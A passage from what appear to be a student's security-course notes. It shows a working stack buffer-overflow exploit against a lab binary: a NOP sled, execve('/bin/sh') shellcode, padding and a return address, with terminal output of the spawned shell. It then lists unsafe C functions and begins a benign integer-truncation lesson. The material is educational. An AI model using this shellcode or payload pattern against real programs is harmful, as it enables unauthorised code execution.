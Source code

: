  final exploit
```
./meet luna $(python -c 'print "\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"A"*180+"\x8a\xd3\xff\xff"')
```
shell spawned
```
lol@local:/root/Desktop/cs642$ ./meet luna $(python -c 'print "\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+"A"*180+"\x8a\xd3\xff\xff"')
Hi  ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒▒°
                                                             ̀1▒@̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒▒▒▒
$ id
uid=1002(lol) gid=1002(lol) groups=1002(lol)

```
**Vulnerable functions**

 - strcpy
 - strcat
 - scanf
 - gets
 
### Integer Overflows
learn from phrack [ [basic integer overflows](http://phrack.org/issues/60/10.html) ]

**ex1.c - loss of precision**

```
#include <stdio.h>
int main(void){
            int l;
            short s;
            char c;

            l = 0xdeadbeef;
            s = l;
            c = l;

            printf("l = 0x%x (%d bits)\n", l, sizeof(l) * 8);
            printf("s = 0x%x (%d bits)\n", s, sizeof(s) * 8);
            printf("c = 0x%x (%d bits)\n", c, sizeof(c) * 8);

            return 0;
}
```
 - `size of int = 4 bytes` , `size of short = 2 bytes` , `size of char = 1 byte`
 - in this example program, we can see truncation process from a variable to smaller variable
 
```
root@local:~/Desktop/cs642# ./ex1
l = 0xdeadbeef (32 bits)
s = 0xffffbeef (16 bits)
c = 0xffffffef (8 bits)

```
 - `l = 0xdeadbeef;` -> assigned 0xdeadbeef to `int l` ( 4 bytes )
 - `s = l;` -> assigned `int l` ( 4 bytes ) into `short s` ( 2 bytes )
	 - we can see how truncated into 2 bytes
 - `c = l;` -> assigned `int l` ( 4 bytes ) into `char c` ( 1 byte )
	 - we can see how truncated into 1 byte
